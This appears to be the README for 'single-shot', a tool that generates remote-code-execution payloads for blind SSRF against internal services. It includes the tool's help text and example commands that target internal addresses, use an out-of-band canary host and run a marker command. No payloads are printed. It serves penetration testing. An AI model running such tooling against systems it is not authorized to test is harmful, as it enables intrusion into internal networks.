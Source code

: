 # single-shot
A tool designed to generate all possible payloads that can lead to RCE in blind SSRF scenarios.

### Usage
```sh
python3 single-shot.py --help
```

This command will show every option supported by the tool. The supported options are:

```console
usage: single-shot [-h] [-v] (-t [TARGET] | -l [TARGET_FILE]) [-c [COMMAND]] [-e [ENCODE_LEVEL]] [-p [PROTOCOL]] [-cn [CANARY_ADDRESS]] [-m [MODE]] [-f [FILTER ...]] [-V]

Generate possible RCE payloads to use in with blind SSRF scenarios

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -t [TARGET], --target [TARGET]
                        Set the target internal domain name or IP address
  -l [TARGET_FILE], --target-list [TARGET_FILE]
                        Set the target list containing internal domain names or IP addresses
  -c [COMMAND], --command [COMMAND]
                        Set the command to be executed
  -e [ENCODE_LEVEL], --encode [ENCODE_LEVEL]
                        Set the payload's URLencode level,ex: -e 0 will not encode the payload -e 2 will double URLencode the output
  -p [PROTOCOL], --protocol [PROTOCOL]
                        Set the internal address protocol. default is http://
  -cn [CANARY_ADDRESS], --canary [CANARY_ADDRESS]
                        Set canary address to confirm internal services
  -m [MODE], --mode [MODE]
                        There are currently three supported modes: canary (deafult mode: generate canary payloads) rce (generate payloads that can lead to RCE) all (generates RCE and Canary payloads)
  -f [FILTER ...], --filter [FILTER ...]
                        Filter category, framework or a specific payload from the results default: exclude Shellshock payloads
  -V, --verbose         Show name of the exploited service and vulnerability for each payload

After all, we are all alike
```

### Running

Generating payloads to look for SSRF canaries:
```sh
python3 single-shot.py -t 127.0.0.1 -cn subdomain.collaborator.net -m canary
```

Generating double encoded payloads to look for SSRF canaries:
```sh
python3 single-shot.py -l addresses.txt -cn https://subdomain.collaborator.net -m canary -e 2
```

Payloads to look for RCE ignoring the framwork Jira:
```sh
python3 single-shot.py -l addresses.txt -c 'touch vrechson' -m rce -f Jira
```

Displaying details about every payload considering the internal framweorks use HTTPS:
```sh
python3 single-shot.py -l addresses.txt -c 'touch vrechson' -m rce -p https -V
```

### Credits
All current payloads were taken from this [assetnote blogpost](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/).

### Contributing
You can contribute openning issuees, submitting pull requests or you can [!["Buy me a Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/vrechson) if you prefer.